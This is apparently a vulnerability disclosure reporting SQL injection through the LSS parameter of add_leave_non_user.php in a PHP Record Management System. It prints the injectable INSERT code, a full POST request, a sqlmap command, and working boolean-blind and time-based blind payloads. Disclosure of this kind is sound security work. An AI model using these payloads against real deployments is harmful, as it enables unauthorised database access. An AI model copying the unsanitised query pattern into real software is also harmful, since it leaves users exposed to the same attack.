 ### VUL_AUTHOR:netmanzhang
# Record Management System - SQL Injection on (add_leave_non_user.php LSS parameter) 
## Vendor Homepage:
https://www.sourcecodester.com/php/5107/record-management-system.html 

## Version:V1.0
## Tested on: PHP, Apache, MySQL
## Affected Page:
add_leave_non_user.php 

On this page, LSS parameter is vulnerable to SQL Injection Attack 
## Source code(Personnel_record_management_system/add_leave_non_user.php):
```
$emp_id=$_POST['name'];
$from=$_POST['from'];
$to=$_POST['to'];
$LEV=$_POST['LEV'];
$LES=$_POST['LES'];
$LSV=$_POST['LSV'];
$LSS=$_POST['LSS'];
$LEV1=$_POST['LEV1'];
$BV1=$_POST['BV1'];
$LES1=$_POST['LES1'];
$BS1=$_POST['BS1'];
$BV=($LEV - $LSV) + ($BV1);
$BS=($LES - $LSS) + ($BS1);
$total=$BV+$BS;
mysqli_query($conn,"insert into service_credits (from_date,to_date,employeeID,LE_vacation,LE_sick,LS_vacation,LS_sick,B_vacation,B_sick,total) values('$from','$to','$emp_id','$LEV','$LES','$LSV','$LSS','$BV','$BS','$total')")or die(mysqli_error());
```
## Proof of vulnerability(Verify using the sqlmap tool):
### Request:
```
POST /Personnel_record_management_system/add_leave_non_user.php?id=103 HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Content-Length: 212
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Language: zh-CN,zh;q=0.9
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Cookie: PHPSESSID=52388hjgjeif4bl4r5sqp2bmpm
Origin: http://localhost
Referer: http://localhost/Personnel_record_management_system/add_leave_non_user.php?id=103
Upgrade-Insecure-Requests: 1
Accept-Encoding: gzip

BS1=22850&BV1=17850&LES=1&LES1=100&LEV=1&LEV1=100&LSS=1&LSV=1&from=04%2F09%2F2024&name=103&save=&to=04%2F11%2F2024
```
#### -> sqlmap -r 1.txt(above request package) --batch
## Output:
```
---
Parameter: LSS (POST)
    Type: boolean-based blind
    Title: MySQL RLIKE boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause
    Payload: BS1=22850&BV1=17850&LES=1&LES1=100&LEV=1&LEV1=100&LSS=1' RLIKE (SELECT (CASE WHEN (4740=4740) THEN 1 ELSE 0x28 END)) AND 'eYWd'='eYWd&LSV=1&from=04/09/2024&name=103&save=&to=04/11/2024

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: BS1=22850&BV1=17850&LES=1&LES1=100&LEV=1&LEV1=100&LSS=1' AND (SELECT 4600 FROM (SELECT(SLEEP(5)))rqQs) AND 'RGto'='RGto&LSV=1&from=04/09/2024&name=103&save=&to=04/11/2024
---
```
